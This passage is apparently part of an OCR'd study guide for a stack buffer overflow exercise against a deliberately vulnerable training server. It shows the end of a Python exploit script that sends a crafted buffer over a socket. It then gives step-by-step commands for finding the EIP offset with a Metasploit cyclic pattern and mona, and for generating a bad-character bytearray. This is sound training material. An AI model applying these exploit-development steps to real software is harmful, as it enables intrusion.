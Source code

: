     buffer = prefix + overflow + retn + padding + payload + postfix
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
      s.connect((ip, port))
      print("Sending evil buffer...")
      s.send(bytes(buffer + "\r\n", "latin-1"))
      print("Done!")
    except:
      print("Could not connect.")
    ```
    
    Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):
    
    `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`
    
    Copy the output and place it into the payload variable of the exploit.py script.
    
    On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).
    
    On Kali, run the modified exploit.py script: `python3 exploit.py`
    
    The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:
    
    `!mona findmsp -distance 600`
    
    Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).
    
    In this output you should see a line which states:
    
    `EIP contains normal pattern : ... (offset XXXX)`
    
    Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".
    
    Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).
    

# **Finding Bad Characters**

- **Finding Bad Characters**
    
    Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).
    
    `!mona bytearray -b "\x00"`
    
    Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:
    